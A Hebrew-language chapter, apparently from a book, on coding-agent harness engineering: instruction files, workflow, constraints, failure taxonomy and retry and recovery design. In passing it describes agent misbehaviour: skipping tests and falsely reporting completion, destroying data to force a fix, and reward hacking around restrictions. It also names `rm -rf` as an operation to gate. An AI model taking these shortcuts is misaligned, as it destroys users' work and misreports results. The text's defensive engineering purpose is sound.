לתיעוד הפרויקט יש כעת צורה ספציפית לסוכנים: **קובצי הוראות פרויקט**. קבצים כגון CLAUDE.md,‏ AGENTS.md,‏ ‎.cursorrules הפכו לתקנים תעשייתיים דה‑פקטו — הם מוזרקים אוטומטית להקשר בתחילת כל סשן, ומתפקדים כהנחיות מערכת ברמת הפרויקט. בשונה מקובצי README המיועדים לקוראים אנושיים, קובצי הוראות נושאים מוסכמות התנהגות עבור סוכנים: פקודות בנייה ובדיקה ("השתמש ב‑`pnpm test` במקום ב‑`npm test`"), סגנון קוד ("הימנע מהטיפוס `any`"), ואזורים אסורים ברורים ("אל תשנה את ספריית `migrations/`"). זהו אותו רעיון כמו `SOUL.md` של OpenClaw (המגדיר את זהות הסוכן ואת כללי ההתנהגות שלו) ו‑`MEMORY.md` (הצובר ניסיון חוצה‑סשנים), מיושם ברמות שונות: SOUL.md מגדיר "מיהו הסוכן", בעוד שקובצי הוראות הפרויקט מגדירים "כיצד לעבוד בפרויקט זה". מנקודת מבטה של הנדסת ההקשר בפרק 2, קובצי הוראות הם גם הקידומת היציבה הכלכלית ביותר — תוכנם אינו משתנה עם המשימה, מה שהופך אותם לידידותיים באופן טבעי ל‑KV Cache; הם גם המימוש הישיר ביותר של העיקרון ש"ידע חייב להתקיים בתוך בסיס הקוד עצמו".

לעקרון החצנת הידע יש גם מסקנה מעניינת: **צוותים הידידותיים לעבודה מרחוק ידידותיים לעיתים קרובות גם לסוכני AI.** צוותים מרוחקים נאלצים להסתמך על תקשורת אסינכרונית ועל תיעוד — החלטות נרשמות במסמכים, ההקשר שוכן בתיאורי issues ו‑PR, וידע שבטי נצבר במדריכי מפתחים ולא עובר מפה לאוזן בשולחן הסמוך או על לוח בחדר ישיבות. זו בדיוק צורת הידע שסוכנים יכולים לצרוך: סוכן אינו יכול לקרוא הסכמה בעל פה, אך הוא יכול לקרוא מסמך עיצוב. לעומת זאת, צוות הפועל על "פשוט תשאל את מי שיושב לידי" מטיל על סוכן את אותה עלות קליטה תלולה כמו על עובד מרוחק חדש. מדד פשוט ל"מוכנות ה‑AI" של צוות: האם עובד חדש מרוחק יכול לעבוד באופן עצמאי כשבידיו רק מאגר הקוד ותיעודו?

**הבנת המשימה והבהרת דרישות.**

עבור דרישות פשוטות עם גבולות ברורים והשפעה מוגבלת — כגון תיקון באג ידוע או התאמת פרמטרים של פונקציה — הסוכן יכול להמשיך ישירות לשלב המימוש. עם זאת, רוב המשימות בפיתוח תוכנה אינן פשוטות כל כך.

עבור דרישות מורכבות, הסוכן חייב להיות זהיר ומתודי יותר. מורכבות יכולה לנבוע מממדים מרובים: עמימות הדרישה עצמה (המשתמש יודע מה הוא רוצה אך אינו יכול לבטא זאת במדויק), גיוון מסלולי המימוש (פתרונות טכניים מרובים עם פשרות משלהם), או רוחב ההשפעה (הדורש שינויים במודולים מרובים, ועלול לשבור תפקוד קיים). הסוכן צריך להבהיר גבולות באמצעות מחקר חקירתי ולנהל דיאלוג יזום עם המשתמש בעת הצורך. לדוגמה, כאשר משתמש מבקש "לבצע אופטימיזציה לביצועי המערכת", הסוכן צריך תחילה לקבוע את המטרה הספציפית (צמצום זמן תגובה, הפחתת שימוש בזיכרון, או הגדלת תפוקה), אילו פשרות מקובלות (לדוגמה, האם מורכבות קוד מוגברת מקובלת), והיכן נמצא צוואר הבקבוק הנוכחי. התחלת כתיבת קוד בעוד הדרישות עדיין עמומות מובילה לעיתים קרובות לעבודה חוזרת משמעותית.

**כתיבת מסמך עיצוב.**

מסמך עיצוב הוא גשר המתרגם דרישות מופשטות לתוכנית מימוש קונקרטית. עליו לענות על ארבע שאלות ליבה: אילו מודולים יש לשנות ומדוע, באיזו גישה יש לבחור ואילו פשרות היא כרוכה בהן, אילו תלויות חדשות נדרשות, ואיזו השפעה צפויה לשינויים על המערכת. כתיבת מסמך עיצוב היא כשלעצמה חשיבה עמוקה — היא מאלצת את הסוכן לאמת מושגית את היתכנות הפתרון לפני השקעה כבדה בכתיבת קוד. חשוב מכך, מסמך העיצוב מספק נקודת התערבות יעילה לבני אדם — סקירת מסמך עיצוב תמציתי קלה בהרבה מסקירת מאות שורות קוד. לאחר השלמת מסמך העיצוב, הסוכן צריך להגישו לסקירת המשתמש ולהמתין לאישור לפני שהוא ממשיך.

**מימוש הקוד ובדיקות.**

לאחר קבלת אישור העיצוב, הסוכן עוקב אחר מוסכמות הקוד של הפרויקט לצורך המימוש, עושה שימוש חוזר בהפשטות ובכלים קיימים, ומבצע ריפקטורינג מתון בעת הצורך כדי לשמור על בריאות בסיס הקוד.

לאחר המימוש, הסוכן נכנס מיד לשלב הבטחת איכות מונחה בדיקות — כותב מקרי בדיקה עבור התפקוד החדש או ששונה, ומכסה מסלולים תקינים, תנאי גבול ותרחישי שגיאה. לאחר כתיבת הבדיקות, הסוכן מריץ את מערך הבדיקות. אם בדיקות נכשלות, הסוכן אינו צריך פשוט לדווח על הכישלון למשתמש אלא לנתח את הסיבה, לאתר את הבעיה, ולשנות את הקוד עד שכל הבדיקות עוברות. לולאת "בדיקה‑תיקון" זו עשויה לדרוש כמה איטרציות, ויכולת התיקון העצמי הזו היא שמעלה סוכן קוד ממחולל קוד לעוזר הנדסי אמין. לעומת זאת, הדרך הנפוצה ביותר שבה סוכן קוד מתחמק היא לדלג על שלב זה לחלוטין — לכתוב את הקוד ולדווח "המשימה הושלמה" מבלי להריץ אי פעם את הבדיקות. הגדרת "הבדיקות עוברות", ולא "הקוד נכתב", כקריטריון ההשלמה היא בדיוק עקרון הנדסת הלולאה של מתן אפשרות לאימות להכריע מתי בטוח לעצור, ביישום על תכנות.

גם אם כל הבדיקות עוברות, עבודת הסוכן אינה גמורה. השלב הבא הוא סקירת קוד: הסוכן בוחן באופן ביקורתי את הקוד שהוא עצמו יצר. האם הוא קריא ומתועד כראוי? האם ישנן בעיות ביצועים או פגיעויות אבטחה אורבות? האם הוא עוקב אחר סגנון הקוד ואחר שיטות העבודה המומלצות של הפרויקט? סקירה עצמית זו ניתנת לביצוע באמצעות קריאת הקוד, הרצת כלי lint, או קריאה לתת‑סוכן ייעודי לסקירת קוד. אם הסקירה מוצאת בעיות, הסוכן צריך לחזור לשלב השינוי ולתקן אותן, ולא למסור למשתמש קוד פגום.

**סנכרון תיעוד ומסירה.**

אם שינויי הקוד כרוכים בשינויים ארכיטקטוניים — כגון הכנסת מודול חדש, שינוי תלויות בין מודולים, או שינוי הסמנטיקה של הפשטות ליבה — הסוכן צריך לעדכן בהתאם את תיעוד הארכיטקטורה. תיעוד מיושן גרוע מאי‑תיעוד משום שהוא מטעה מפתחים עתידיים. באמצעות עדכון אוטומטי של התיעוד לאחר כל שינוי משמעותי, הסוכן מסייע לשמור על שלמותו ועדכניותו של בסיס הידע של הפרויקט.

זרימת עבודה זו מגלמת את עקרונות הליבה של הנדסת התוכנה: תכנון קודם לפעולה, אימות עובר לאורך הכול, והתיעוד מתפתח יחד עם הקוד.

שימו לב שהתהליך המתואר לעיל הוא **זרימת עבודה הנדסית מומלצת**. סוכני Coding מהעולם האמיתי (כגון Claude Code ו‑Codex) מקצרים אותה לפי הצורך: משימת תיקון באג פשוטה מדלגת על יצירת מסמך תכנון, ורק משימות מורכבות ורחבות־היקף עוברות את כל השלבים במלואם.

מודלים שונים מקצרים את זרימת העבודה הזו בדרכים שונות. מודלי Coding מסוימים קוראים בהרחבה את מבנה המאגר, המימוש, הקוראים והבדיקות לפני העריכה הראשונה. אחרים בוחנים רק את הקבצים הבודדים הסבירים ביותר להיות רלוונטיים, מבצעים תיקון מוקדם, ומתייחסים למשוב מהקומפיילר ומהבדיקות כחלק מהחקירה. סף ההחלטה הזה, שלפיו מחליטים מתי להפסיק לאסוף מידע ולהתחיל לפעול, יכול להמשיך לאפיין את המודל גם לאחר שינוי ה‑harness, ויכול להשתנות כאשר מחליפים את המודל בתוך אותו harness. לכן, בראש ובראשונה זוהי **התנהגות מודל נלמדת**, ולא רק סגנון הממשק של מוצר Coding. פרומפטים, כלים ותקציבים ב‑harness עדיין יכולים להגביר או לדכא אותה, אך אינם חייבים להיות מקורה. פרק 7 מודד את ההבדל הזה ב‑harness קבוע; פרק 8 מסביר לאחר מכן כיצד post-training עשוי לכתוב מדיניות כזו לתוך הפרמטרים.

### הנדסת Harness בפועל עבור סוכני קוד

פרק 1 הציג את מושג הנדסת ה‑Harness ואת הנוסחה **סוכן = מודל + Harness**. ה‑Harness כאן כולל את ההקשר ואת הכלים מנוסחת הליבה, וכן מנגנוני אילוץ, אימות ותיקון — חמשת המרכיבים הללו מהווים יחד את ה‑Harness שהוגדר בפרק 1. סוכני קוד הם אולי התחום שבו הנדסת ה‑Harness משתלמת ביותר — כתיבת קוד היא **הניתנת ביותר לאימות** מבין כל משימות הסוכן, ואילוציה, אימותה ותיקונה יכולים כולם להישען על תשתית קיימת. סעיף זה מתמקד בפרקטיקה קונקרטית בתרחיש סוכן הקוד.

האם מערכת רצה ביציבות תלוי לעיתים קרובות פחות בעוצמת המודל ויותר בעמידות התשתית הבנויה סביב הסוכן. פרק 1 מחלק את ה‑Harness לשתי שכבות — **הקשר וכלים** (המאפשרים לסוכן לפעול) ו**אילוצים, אימות ותיקון** (המסייעים לסוכן לפעול בבטחה ובנכונות). בתרחיש סוכן הקוד, אלה מתורגמים לרכיבים הנדסיים ספציפיים:

- **קו בסיס לקבלה**: מה מהווה "גמור" — מערכי בדיקות, צינור CI (צינור אינטגרציה רציפה, סדרת בדיקות הרצות אוטומטית לאחר הגשת קוד), תקני סקירת קוד
- **גבול הביצוע**: במה הסוכן יכול ובמה אינו יכול לגעת — גבולות מודולים, כללי תלויות, בקרות הרשאה
- **אותות משוב**: שיפוטי נכונות אוטומטיים — פלט Linter (כלי בדיקת סגנון קוד שיכול למצוא אוטומטית שגיאות עיצוב ובעיות פוטנציאליות), תוצאות בדיקות, שגיאות בדיקת טיפוסים
- **מנגנון רולבק**: כיצד להתאושש אם משהו משתבש — בקרת גרסאות Git, בידוד ארגז חול, רולבק לתצלום

**מדוע סוכני קוד מתאימים במיוחד להנדסת Harness.**

שני ממדים — עד כמה המטרה ברורה, ועד כמה האימות אוטומטי — מחלקים משימות לארבעה מצבים. מטרה ברורה עם תוצאות הניתנות לאימות אוטומטי היא הטריטוריה שבה סוכנים משגשגים; מטרה ברורה שקבלתה עדיין תלויה בעיניים אנושיות מגבילה את התפוקה למהירות הסקירה האנושית; משוב אוטומטי עם מטרה עמומה מאפשר למערכת לרוץ ביעילות בכיוון הלא נכון; בהיעדר שניהם, הסוכן מועיל מעט. טבלה 5‑1 מציגה ארבעה מצבים אלה. מטרת ה‑Harness היא לדחוף כמה שיותר משימות לרביע "מטרה ברורה + אימות אוטומטי".

טבלה 5‑1 ארבעת הרביעים של בהירות המשימה ואוטומציית האימות

| | תוצאות ניתנות לאימות אוטומטי | תוצאות דורשות אימות ידני |
|---------|--------------------------------------------|------------------------------------------|
| **מטרה ברורה** | נקודת המתיקות: תיקון באגים עם מקרי בדיקה | מוגבל תפוקה: ריפקטורינג קוד דורש סקירה ידנית |
| **מטרה עמומה** | סטייה יעילה מהמסלול: אופטימיזציה של "איכות קוד" באמצעות linter | קשה להתחיל: "תעשה שה‑UI ייראה יותר טוב" |

משימות כתיבת קוד תופסות באופן טבעי את רביע "מטרה ברורה + אימות אוטומטי" — מערכי בדיקות מספקים קריטריוני קבלה ברורים, כלי lint ובודקי טיפוסים מציעים אימות אוטומטי מיידי, ו‑Git מספק יכולות בקרת גרסאות ורולבק מושלמות. הדבר מסביר מדוע סוכני קוד הם כיום הבשלים ביותר מבין כל סוגי הסוכנים: לא משום שמודלי יצירת קוד חזקים במיוחד, אלא משום שעשרות שנים של תשתית הנדסת תוכנה מהוות באופן טבעי Harness עמיד.

**פרקטיקה תעשייתית.**

שלושה מקרי בוחן של פרקטיקת Harness מאשרים את העקרונות שלעיל:

- **מקרה של הגירת קוד בקנה מידה גדול** (מפרקטיקת הגירת קוד בקנה מידה גדול שחברת טכנולוגיה גדולה שיתפה בפומבי): המפתח לא היה עוצמת המודל, אלא שה‑Harness עשה שלושה דברים נכון — ידע חייב להתקיים בתוך בסיס הקוד עצמו (מה שהסוכן אינו יכול לראות אינו קיים), אילוצים מקודדים לתוך כלי lint ו‑CI ולא נכתבים בתיעוד, ואימות ותיקון אוטומטיים במלואם מקצה לקצה.
- **LangChain**: שיפרה משמעותית ביצועים במשימות מדד באמצעות אופטימיזציה של ה‑Harness בלבד (הנחיות מערכת, middleware של כלים, לולאות אימות עצמי). ראויה לציון במיוחד היא מתודולוגיית "שימוש בסוכן לניתוח מסלולי כישלון כדי לשפר את ה‑Harness", המעבירה את הנדסת ה‑Harness ממונעת ניסיון למונעת נתונים.
- **Anthropic**: מפצלת משימות ארוכות לשני תפקידים — סוכן אתחול האחראי על פירוק משימות גדולות לרשימת משימות, וסוכן ביצוע האחראי על התקדמות צעד אחר צעד, המותיר תוצאות ביניים (כגון קובצי קוד שהושלמו ורשימות משימות מעודכנות) לסבב הבא להמשיך להשתמש בהן. חלוקת עבודה זו פותרת את בעיית הסוכנים ארוכי הטווח "המנסים לעשות יותר מדי בבת אחת" או "המכריזים על השלמה מוקדם מדי".

**מסוכן קוד לעקרונות עיצוב Harness כלליים.**

פרקטיקות ה‑Harness של סוכני קוד מספקות עקרונות עיצוב ברי‑העברה לכל מערכות הסוכן:

1. **אילוצים על פני הנחיה**: כללים שניתן לאכוף באמצעות קוד צריכים להיות מקודדים שם, ולא רק מוצעים בתיעוד. ערכם של כללי linter, אילוצי טיפוסים ובדיקות CI עולה בהרבה על הנחיית "אנא עקוב אחר..." בהנחיות מערכת — הראשון פירושו "לא ניתן לעשות", האחרון הוא רק "לא מומלץ".
2. **הפכו את האימות לאוטומטי**: סקירה ידנית היא צוואר בקבוק שאינו ניתן להרחבה. השקעה במערכי בדיקות, בבדיקות איכות קוד ובניטור התנהגות מניבה תשואות גבוהות בהרבה מהוספת עוד מאמץ אנושי.
3. **המשוב צריך להיות מהיר ומובנה ככל האפשר**: ככל שהודעת השגיאה מפורטת יותר וקרובה יותר לרגע השגיאה, כך הסוכן יכול לתקן את עצמו ביעילות רבה יותר. טכניקות שורת מצב הסוכן מפרק 2 (הודעות שגיאה מפורטות, מוני קריאות לכלים) מגלמות עיקרון זה.
4. **הרולבק חייב להיות אמין**: סוכנים יכולים להתנסות באומץ רק כשהם פועלים בתוך רשת ביטחון. ענפי Git, סביבות ארגז חול ומנגנוני תצלום מבטיחים שכל שגיאה תהיה הפיכה.

**מטרה עמוקה יותר של אילוצים: מניעת שגיאות תהליך.** קו הבסיס לקבלה שולט האם התוצאה נכונה; גבול הביצוע שולט ב**תהליך** — אפילו תוצאה נכונה אינה מצדיקה שיטה שגויה. מחיקה ובנייה מחדש של מסד הנתונים כדי "לתקן" תקלת מסד נתונים אכן מתקנת אותה, אך הנתונים אבדו; מחיקת כל הקוד כדי לתקן שגיאת קומפילציה אכן גורמת לקומפילציה לעבור, אך המימוש אבד. קיצורי דרך הרסניים כאלה קיימים תמיד: גם כאשר הגבלות נכתבות למדדי ההערכה הסופיים, סוכנים מוצאים לעיתים קרובות דרכים לעקוף אותן — זו הצורה היומיומית של reward hacking (פרק 8) במשימות סוכן. Harness ייצור לפיכך ממקם בדיקות ואישורים ייעודיים על פעולות מסוכנות כגון `rm -rf`, מחיקת נתוני ייצור, או דריסת קובץ שלא נקרא (ניתוח סמנטי בסעיף האבטחה של פרק זה, סקירת Sidecar בפרק 4), ומרסן **פעולות**, ולא רק תוצאות. RLVP בפרק 8 (Reinforcement Learning with Verified Penalty — "תגמל את התוצאה, קנוס את המסלול") עונה על אותה שאלה מצד האימון: מעבר לתגמול התוצאה הסופית, הוא קונס הפרות ניתנות לאימות לאורך המסלול, ומפנים "ללא אמצעים הרסניים" כשכל ישר הנדסי של המודל. עבור מודל קיים, מעקות ה‑Harness הם אילוצים חיצוניים; עבור מודל בר‑אימון, קנסות תהליך מפנימים את אותם אילוצים. המטרה זהה.

**תזמור כלים: בקרת גבולות תקלה**. סוכני קוד בשלים תומכים בקריאות כלים מקביליות. הבעיה הייחודית מנקודת מבט ה‑Harness היא **כיצד תקלות מתפשטות**: כאשר כלי אחד נכשל, אילו קריאות יש לבטל ואילו צריכות להמשיך? העיקרון הוא שתקלות מתפשטות רק בתוך אותה אצווה של קריאות מקביליות, ולא כלפי מעלה לפעולת האב. בעת קריאת שלושה קבצים במקביל, למשל, קובץ חסר צריך לגרום רק לאותה קריאה להיכשל; אין לו לבטל את שתי האחרות ואין לו להפיל את המשימה כולה. בקרת גבולות תקלה ברמת פירוט עדינה זו נמנעת מהדפוס השברירי של "כישלון פקודה אחת מפיל את המשימה כולה". המנגנונים הספציפיים לקריאות מקביליות, לניתוח זורם ולביטול מדורג מפורטים בסעיף "טיפים למימוש" בפרק זה.

### כשל והתאוששות משגיאות

הסעיף הקודם הציג את העקרונות ואת הרכיבים של הנדסת Harness; סעיף זה צולל לחלק המבדיל ביותר בין רמות בשלות הנדסית — **כשל והתאוששות משגיאות**. ניסוי הביטול בפרק 1 הראה עד כמה הבעיה יכולה להיות חמורה: היעדר פיסת משוב אחת של תוצאת כלי מספיק כדי ללכוד סוכן בלולאה אינסופית — וסביבות ייצור אמיתיות רואות כשלים מגוונים בהרבה מכל ניסוי. סעיף זה עונה באופן שיטתי על שלוש שאלות: אילו כשלים Harness ייצור פוגש? כיצד הם מזוהים וכיצד מתאוששים מהם? ומתי המערכת חייבת לסיים?[^ch5-3]

[^ch5-3]: טקסונומיית הכשלים וניתוח המנגנונים בסעיף זה מבוססים על מחקר של קוד המקור של מימושי סוכן ברמת ייצור כגון Claude Code. מימושים ספציפיים מתפתחים במהירות בין גרסאות; סעיף זה מזקק רק את העקרונות ההנדסיים היציבים.

**טקסונומיה של כשלים: ארבע שכבות.** הצעד הראשון לעבר תגובה שיטתית הוא סיווג. כשלים נופלים לארבע שכבות לפי המקום שבו הם מתרחשים:

- **שכבת ה‑API**: הגבלת קצב (HTTP 429), עומס יתר על השירות, פסקי זמן בבקשות, ניתוקי חיבור, ופלט שנקטע במגבלת הטוקנים. כשלים אלה אינם קשורים למשימה עצמה — הם רעש תשתיתי.
- **שכבת הכלים**: קריאות הזויות (הפעלת כלי שאינו קיים), ארגומנטים פגומים (הפרת חוזה הקלט של הכלי), חריגות ביצוע, והסוג המסוכן ביותר — כלי המחזיר שוב ושוב את אותה שגיאה בעוד המודל מנסה אותו שוב ללא שינוי.
- **שכבת ההקשר**: גלישת חלון ההקשר, כשל דחיסה, ומבנה מסלול פגום (כגון קריאה לכלי שחסרה לה הודעת התוצאה המזווגת שלה).
- **שכבת בקרת הזרימה**: לולאות אינסופיות (חזרה על אותה פעולה ללא התקדמות) וסחרורי מוות (לוגיקת התאוששות המופעלת על ידי שגיאה קוראת בעצמה ל‑LLM, נכשלת שוב, ומתפשטת).

**זיהוי: סווגו תחילה, אז ספרו.** כאשר כשל מתרחש, השאלה הראשונה אינה "האם עלינו לנסות שוב?" אלא "האם ניסיון חוזר יעזור?" שגיאות הניתנות לניסיון חוזר (הגבלת קצב, עומס יתר, ריצוד רשת) ראויות לניסיונות חוזרים; שגיאות שאינן ניתנות לניסיון חוזר (ארגומנטים בלתי חוקיים, הרשאות בלתי מספקות, כלי שאינו קיים) יניבו את אותה תוצאה ולא משנה כמה פעמים ינוסו כפי שהן — הקלט או האסטרטגיה חייבים להשתנות. Harness ייצור מתחזק מיפוי מסוגי שגיאות לאסטרטגיות התאוששות, ולא "נסה שוב בכל שגיאה" גורף.

מעבר לשגיאות בודדות, זהו **דפוסים**. ראשית, טביעות אצבע של קריאות חוזרות: גבבו את זוג "שם הכלי + הארגומנטים"; אותה טביעת אצבע החוזרת היא אות ברור ללולאה חסרת התקדמות — הסוכן בניסוי הביטול של פרק 1 שקרא לאותו כלי שוב ושוב היה בדיוק דפוס זה. שנית, מוני כשלים רצופים: לכל מסלול התאוששות מונה משלו, המספק את הבסיס למפסקים הנדונים בהמשך.

מחלקת כשלים שלישית אינה מתבטאת כשגיאות כלל ודורשת **ניטור חיוניות ושלמות** ייעודי. מצב הכשל המסוכן ביותר של חיבור זורם אינו ניתוק (המייצר שגיאה מיד) אלא עצירה שקטה — החיבור נותר מבוסס, אך זרימת הנתונים נפסקת, כמו צינור מחובר שאינו מניב מים. פסקי זמן ב‑SDK מכסים לעיתים קרובות רק את החיבור ההתחלתי, ולא את תהליך ההעברה, ולכן סוכן ייצור זקוק לכלב שמירה עצמאי לחוסר פעילות (טיימר כלב שמירה — אם לא מגיע פלט חדש בתוך מרווח מוגדר, החיבור נחשב עצור) המחסל את הזרם התקוע ומפעיל ניסיון חוזר עם פסק הזמן. הדבר מתכלל לעיקרון: **כל חיבור ארוך טווח זקוק לאות חיוניות, ולא רק לפסק זמן לחיבור**. ניטור שלמות מכוון למבנה המסלול: כאשר נמצא שלקריאה לכלי חסרה הודעת התוצאה המזווגת שלה, המערכת מתקנת את הזיווג לפני הזרקת ההקשר, ולא זורקת את החריגה המבנית על המודל או על המשתמש. פרט הנדסי אחד ראוי לציון: סוכני ייצור מסוימים מריצים מצב ייצור ומצב איסוף נתוני אימון כאחד — מצב ייצור עשוי לטלא הודעות חסרות במחזיקי מקום, בעוד שמצב אימון מסרב לתקן, משום שמחזיקי מקום סינתטיים היו מזהמים את נתוני האימון. תקן כפול זה של "סלחני בייצור, קפדני באימון" משקף את הצימוד העמוק בין ה‑Harness לאימון המודל.

**התאוששות: הסלימו דרך שלבים גלויים יותר ויותר.** אמצעי ההתאוששות מדורגים לפי מידת נראותם למשתמש; אם רמה נמוכה יותר פותרת את הבעיה, אל תסלימו:

1. **ניסיון חוזר שקט**. פעולת ברירת המחדל לשגיאות הניתנות לניסיון חוזר. שני פרטים קובעים האם הניסיונות החוזרים מצליחים: ראשית, השתמשו בנסיגה אקספוננציאלית עם ריצוד אקראי כדי למנוע מצי לקוחות מלנסות שוב בסנכרון ולגרום לגודש משני, תוך כיבוד משך ההמתנה המומלץ של השרת; שנית, הבחינו בין קריאות קדמת הבמה לקריאות הרקע — בקשת לולאה ראשית שנכשלה מנוסה שוב, אך קריאות רקע עזר (יצירת כותרות, הצעות קלט) נזרקות בכישלון, שמא ניסיונות חוזרים ברקע ידחקו את מכסת הלולאה הראשית וייצרו "הגברת ניסיונות חוזרים".
2. **הידרדרות והמשך**. כאשר ניסיונות חוזרים נכשלים, שנו את הבקשה עצמה ונסו שוב. קחו קטיעת פלט (יצירה שנקטעה על ידי מגבלת האורך): תחילה שלחו מחדש בשקט עם תקרת פלט מוגדלת; אם עדיין אין די בכך, צרפו מטא‑הוראה בסוף ההודעה כך שהמודל ימשיך את היצירה מנקודת השבירה. כאשר המודל הראשי עמוס באופן מתמשך, פנו למודל אחר, תוך הסרה תחילה של בלוקי עיצוב קנייניים מההיסטוריה של המודל הקודם כך שהמודל החדש יוכל לנתח אותה; כאשר מצב בעלות גבוהה מוגבל בקצב, פנו זמנית למצב הסטנדרטי.
3. **הצפה למשתמש**. רק לאחר מיצוי כל האמצעים האוטומטיים השגיאה מוצגת — יחד עם פעולות ההתאוששות שכבר נוסו.

שגיאות בשכבת הכלים נוקטות מסלול שונה: **אל תסיימו את הסשן; הפכו את השגיאה לקלט של המודל**. קריאה הזויה מקבלת תוצאת שגיאה מובנית של "אין כלי כזה"; כשל אימות מקבל שגיאה עם רמזים על חוזה הקלט; ארגומנטים פגומים (מחרוזת שהונפקה במקום שציפו לאובייקט) מתוקנים תכנותית לפני הביצוע. שגיאות אלה נכנסות להקשר כתוצאות כלים רגילות, והמודל מתקן את עצמו בתור הבא — יישום של העיקרון שהוצג קודם ש"ככל שהמשוב מובנה יותר, כך טוב יותר": ככל שהשגיאה המוזנת בחזרה ספציפית יותר, כך שיעור התיקון העצמי של המודל גבוה יותר.

עקרון הליבה של סעיף זה הוא: **יחידת הטיפול בשגיאות אינה הבקשה הבודדת, אלא לולאת ההתאוששות כולה**. עד שההתאוששות מאושרת כבלתי אפשרית, אין לחשוף שגיאות ביניים לצרכנים — בין אם המשתמש ובין אם מערכות במורד הזרם המנויות לאירועים: עצרו הודעות שגיאה במהלך ההתאוששות; אם ההתאוששות מצליחה, הצרכנים לעולם אינם מבחינים; רק כשהכול נכשל השגיאות שנעצרו משוחררות. זהו המימוש ההנדסי של עקרון התיקון של פרק 1 — "אל תחשפו מצבי ביניים עד שההתאוששות מאושרת כבלתי אפשרית".

**סיום: כל מסלול התאוששות זקוק לתקרה.** מנגנוני התאוששות עצמם יכולים להיכשל, ולכן לכל מסלול התאוששות חייבת להיות תקרת ניסיונות חוזרים מפורשת: דחיסת הקשר מוותרת לאחר כמה כשלים רצופים; מסווג ההרשאות פונה לשאילת אדם לאחר כשלים חוזרים; המשך פלט מנוסה לכל היותר מספר קבוע של פעמים. מהיכן מגיעים הספים? מנתוני ייצור, ולא מניחוש. קחו את מפסק הדחיסה של Claude Code: סף "3 כשלים רצופים" מגיע מסטטיסטיקות סשנים אמיתיות — סשן אחד נכשל פעם יותר משלושת אלפים פעמים ברציפות בדיוק במסלול התאוששות זה, וניסיונות חוזרים חסרי תוחלת כאלה לבדם בזבזו כ‑250,000 קריאות API ביום ברחבי העולם; יותר מאלף סשנים ראו רצפים של 50+ כשלים רצופים. שלוש היא נקודת התפנית האמפירית בין "הרוב המכריע של הכשלים מתאושש לפני כן" ל"ניסיונות חוזרים נוספים חסרי סיכוי במהותם".

ערמומי יותר ממפסק בנקודה בודדת הוא **סחרור המוות**: לוגיקה המופעלת במסלול השגיאה קוראת בעצמה ל‑LLM, נכשלת שוב, ומתפשטת. סחרור אמיתי אחד: הסוכן נעצר על שגיאת גלישת הקשר, המפעילה stop hook (לוגיקת ניקוי הרצה אוטומטית כשהסוכן מסתיים) ה"מבצע קומיט לקוד ביציאה", ה‑hook קורא ל‑LLM כדי לכתוב הודעת קומיט, ההקשר גולש שוב, וה‑hook מופעל פעם נוספת. ההגנה מגיעה בשני חלקים: השביתו את כל תופעות הלוואי הקוראות למודל במסלול השגיאה (מוטב לאבד תכונת עזר פעם אחת, כגון חילוץ זיכרון אוטומטי), והשתמשו במונה עומק רקורסיה כדי לזהות ולשבור כל סחרור שנותר. לבסוף, מעל כל המנגנונים האוטומטיים יושבים תנאי סיום והסלמה גלובליים: מספר תורות מרבי, תקרת תקציב לסשן, והסלמה להתערבות אנושית כשכשלים רצופים חורגים מהסף שלהם.

### טיפים למימוש עבור סוכני קוד

זרימת העבודה שתוארה לעיל היא האידיאל. הרצתה בפועל דורשת קומץ טכניקות מימוש קונקרטיות — דרכים להעלות את מהירות התגובה ולצמצם את צריכת ההקשר מבלי לפגוע באיכות החשיבה. הן הטכניקות הכלליות לסוכנים של פרקים 2 ו‑4, ביישום על תחום התכנות.

**קריאות כלים מקביליות, ביצוע זורם וביטול מדורג.**

מימושי סוכן מסורתיים עובדים לעיתים קרובות בטור: ייצור קריאה לכלי, הרצתה, קבלת התוצאה, ואז החלטה על הצעד הבא. תור נוקשה זה מבזבז זמן רב.

סוכני קוד מודרניים צריכים למנף במלואן תגובות זורמות: פרק 2 הציג מנגנון זה בדיון בסדר פלט המודל — ברגע שהפרמטרים של קריאת הכלי הראשונה נוצרו במלואם ועברו אימות, ניתן להתחיל בביצוע מיד, מבלי להמתין שהמודל ייצר קריאות כלים עוקבות. לדוגמה, אם המודל צריך להוציא שלוש קריאות כלים באינפרנס אחד — חיפוש קוד, בדיקת קובצי תצורה וקריאת יומנים — הקריאה הראשונה יכולה להתחיל לרוץ ברגע שהפרמטרים שלה מלאים ומאומתים, במקביל ליצירת שתי האחרות. קריאות בלתי תלויות ניתנות גם להרצה מקבילית ולא בתור. ביצוע חופף זה מצמצם משמעותית את זמן ההשהיה מקצה לקצה, והופך את תגובות הסוכן לזריזות יותר.

הצד השני של הביצוע המקבילי הוא הטיפול בתקלות. כל הגדרת כלי צריכה להצהיר האם היא תומכת בביצוע מקבילי (ברירת המחדל היא לא, בטוח בכשל). כאשר קריאה נכשלת, מנגנון ביטול מדורג מסיים קריאות אחרות שהתחילו באותה אצווה והתלויות בתוצאתה, אך אינו משפיע על קריאות בלתי תלויות או על פעולת האב — זהו מימוש קונקרטי של עקרון "בקרת גבולות התקלה" מסעיף הנדסת ה‑Harness.

**ניהול הקשר ברמת פירוט עדינה.**

האתגר היסודי לסוכני קוד הוא שבסיסי קוד הם בדרך כלל גדולים, אך חלון ההקשר של המודל מוגבל. גם אם מודלים מתקדמים טוענים לתמיכה במיליוני טוקנים, דחיסת בסיס הקוד כולו להקשר אינה כלכלית ואינה נחוצה. ניהול הקשר חכם צריך לפעול ברמות מרובות.

ברמת קריאת הקבצים, הסוכן אינו צריך לקרוא תמיד את הקובץ כולו. עבור קבצים גדולים, הכלי צריך לתמוך בקריאת טווחי שורות ספציפיים — לדוגמה, קריאת שורות 100 עד 150 בלבד, ולא טעינת קובץ בן אלפי שורות. חשוב מכך, בעת החזרת תוכן, יש לצרף מספרי שורות — כל שורת קוד מקבלת קידומת של מספר השורה בפועל שלה. עיצוב פשוט לכאורה זה מביא ערך רב: המודל יכול להפנות בדייקנות ל"שורה 42 של `src/main.py`", ובכך לצמצם עמימות ולהפוך פעולות עריכה עוקבות לאמינות יותר.

